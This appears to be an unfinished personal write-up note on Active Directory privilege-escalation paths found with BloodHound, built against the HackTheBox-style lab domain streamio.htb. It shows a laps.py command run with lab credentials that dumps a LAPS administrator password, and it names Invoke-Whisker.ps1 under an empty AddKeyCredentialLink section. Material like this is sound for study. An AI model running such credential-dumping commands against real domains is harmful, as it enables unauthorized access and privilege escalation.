 ```yaml
---
description: >-
  BloodHound Vector Attacks
title: BloodHound Vector Attacks              # Add title here
date: 2023-01-02 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Privilege Escalation]                     # Change Templates to Writeup
tags: [active directory, windows privesc, readlaps, sysvol share, powershell history]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### ReadLAPSPassword

We can use the utility laps.py to read LAPS passwords:
```bash
python3 laps.py -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' -d streamio.htb
LAPS Dumper - Running at 07-07-2022 13:57:05
DC &V@%DQ-wEwQ97A
```
[[StreamIO#^2cc182]]

### AddKeyCredentialLink

We can use `Invoke-Whisker.ps1` to abuse this privilege:
```powershell

```